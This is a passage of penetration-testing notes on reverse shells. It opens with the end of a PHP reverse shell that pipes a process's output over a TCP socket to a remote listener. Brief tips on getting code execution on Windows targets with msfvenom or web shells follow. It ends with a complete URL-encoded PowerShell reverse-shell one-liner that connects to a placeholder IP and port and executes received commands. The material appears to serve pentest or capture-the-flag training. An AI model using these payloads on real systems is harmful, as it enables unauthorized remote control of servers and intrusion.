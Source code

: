 ```
	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 
```
* Most language specific (e.g. PHP) reverse shells are written for Unix based targets such as Linux webservers.
  * They will not work on Windows by default.
* Obtain RCE on Windows stargets.
  * Use msfvenom to generate reverse/bind shell in the language of the server.
  * Use a web shell on Windows targets.
    * Obtaining RCE is often done with a URL Encoded Powershell Reverse Shell copied into the URL as the cmd argument.
```
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```
* Same shell encountered above in the "Common Shell Payloads" section.
  * Has been URL encoded to be used safely in a GET parameter.
  * IP and Port will still need to be changed.
